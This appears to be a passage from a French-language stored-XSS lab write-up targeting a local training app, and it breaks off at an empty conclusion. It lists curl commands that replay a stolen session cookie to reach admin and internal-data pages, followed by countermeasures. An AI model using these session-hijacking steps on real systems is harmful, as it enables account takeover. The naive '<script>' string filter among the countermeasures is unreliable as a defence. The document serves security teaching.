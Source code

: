 ## 🏆 Validation de l'Exploit

### Vérification des Résultats

1. **Vérifier les logs du serveur d'attaque** pour les cookies volés
2. **Tester l'accès admin** avec la session volée
3. **Accéder aux données sensibles** : `/internal-data`

### Commandes de Validation

```bash
# Vérifier que le payload est stocké
curl http://localhost:3206/api/messages

# Tester l'accès admin
curl -H "Cookie: session=SESSION_VOLE" http://localhost:3206/admin

# Accéder aux données internes
curl -H "Cookie: session=SESSION_VOLE" http://localhost:3206/internal-data
```

## 🛡️ Contre-Mesures

### Pour Sécuriser l'Application

1. **Sanitisation des entrées** :
```javascript
const DOMPurify = require('dompurify');
const sanitizedMessage = DOMPurify.sanitize(message);
```

2. **Content Security Policy (CSP)** :
```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'">
```

3. **Validation côté serveur** :
```javascript
// Rejeter les entrées contenant des balises script
if (message.includes('<script>')) {
    return res.status(400).json({ error: 'Invalid input' });
}
```

## 📚 Concepts Appris

- **XSS Stockée** : Vulnérabilité persistante
- **Vol de Session** : Exploitation des cookies
- **Élévation de Privilèges** : Accès admin via session volée
- **Contre-Mesures** : Sanitisation et CSP

## 🎉 Conclusion
